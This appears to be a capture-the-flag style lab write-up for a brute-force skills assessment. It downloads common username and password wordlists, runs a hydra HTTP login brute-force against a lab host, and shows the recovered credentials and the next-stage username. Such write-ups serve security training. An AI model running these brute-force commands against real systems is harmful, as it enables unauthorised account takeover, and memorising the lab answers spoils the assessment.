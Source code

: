 ```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```

The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

![](Pasted image 20250213155858.png)

Let's begin by downloading both wordlists to our machine:

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt 
```

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

Once we've got everything, let's begin with the bruteforce process, we can use hydra for this process:

```
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 42572 http-get -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:02:48
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-get://94.237.54.164:42572/
[42572][http-get] host: 94.237.54.164   login: admin   password: Admin123
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`admin`:`Admin123`
```

Let's log in now:

![](Pasted image 20250213160445.png)

We got the username:

```
satwossh
```